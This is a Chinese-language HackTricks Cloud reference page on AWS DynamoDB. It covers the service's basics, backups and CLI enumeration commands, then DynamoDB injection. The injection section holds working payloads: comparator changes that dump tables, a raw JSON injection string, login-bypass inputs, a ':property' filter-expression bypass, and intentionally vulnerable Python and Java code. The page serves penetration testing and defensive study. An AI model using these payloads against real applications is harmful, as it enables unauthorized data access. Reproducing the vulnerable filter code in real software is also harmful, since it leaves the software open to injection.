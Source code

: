 # AWS - DynamoDB Enum

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## DynamoDB

### 基本信息

Amazon DynamoDB 被 AWS 提供为一个 **完全托管的无服务器键值 NoSQL 数据库**，旨在为各种规模的高性能应用提供支持。该服务确保了强大的功能，包括固有的安全措施、不间断的备份、跨多个区域的自动复制、集成的内存缓存和便捷的数据导出工具。

在 DynamoDB 的上下文中，不是建立传统数据库，而是 **创建表**。每个表都要求指定一个 **分区键**，作为 **表主键** 的一个组成部分。这个分区键，实质上是一个 **哈希值**，在项目的检索和数据在不同主机之间的分配中起着关键作用。这种分配对于维护数据库的可扩展性和可用性至关重要。此外，还有一个选项可以加入 **排序键** 以进一步细化数据组织。

### 加密

默认情况下，DynamoDB 使用一个 **属于 Amazon DynamoDB 的 KMS 密钥，**甚至不是至少属于您账户的 AWS 管理密钥。

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 备份与导出到 S3

可以 **安排** 生成 **表备份** 或按 **需创建**。此外，还可以为表启用 **时间点恢复 (PITR)**。时间点恢复为您的 DynamoDB 数据提供连续的 **备份**，持续 **35 天**，以帮助您防止意外的写入或删除操作。

还可以将 **表的数据导出到 S3**，但该表需要启用 **PITR**。

### GUI

有一个本地 Dynamo 服务的 GUI，如 [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/)、[dynalite](https://github.com/mhart/dynalite)、[localstack](https://github.com/localstack/localstack) 等，这些可能会很有用：[https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 枚举
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 未经身份验证的访问

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### 权限提升

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### 利用后

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### 持久性

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB 注入

### SQL 注入

有方法可以使用 **SQL 语法** 访问 DynamoDB 数据，因此，典型的 **SQL 注入也是可能的**。

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL 注入

在 DynamoDB 中，可以使用不同的 **条件** 来检索数据，就像在常见的 NoSQL 注入中，如果可以 **链接更多条件以检索** 数据，您可能会获得隐藏的数据（或转储整个表）。\
您可以在这里找到 DynamoDB 支持的条件：[https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

请注意，如果通过 **`query`** 或 **`scan`** 访问数据，支持 **不同的条件**。

{% hint style="info" %}
实际上，**Query** 操作需要在 **主** 键中指定 **条件 "EQ"（等于）** 才能工作，这使其 **更不容易受到 NoSQL 注入**（并且也使操作非常有限）。
{% endhint %}

如果您可以 **更改执行的比较** 或添加新的比较，您可能会检索到更多数据。
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### 原始 Json 注入

{% hint style="danger" %}
**此漏洞基于现已弃用的 dynamodb 扫描过滤器！**
{% endhint %}

**DynamoDB** 接受 **Json** 对象以 **搜索** 数据。如果你发现可以在发送的 json 对象中进行写入，你可以使数据库转储所有内容。

例如，在请求中注入如下内容：

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

攻击者可以注入类似于：

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

修复“EQ”条件，搜索 ID 1000，然后查找所有 Id 字符串大于 0 的数据，即所有数据。

另一个 **使用登录的脆弱示例** 可以是：
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
这将容易受到以下攻击：
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

一些 SDK 允许使用一个字符串来指示要执行的过滤，如： 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

您需要知道，在DynamoDB中搜索以**替换**属性**值**的**过滤表达式**时，令牌应以**`:`**字符**开头**。这样的令牌将在运行时**替换**为实际的**属性值**。

因此，像之前的登录可以通过以下方式绕过：
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
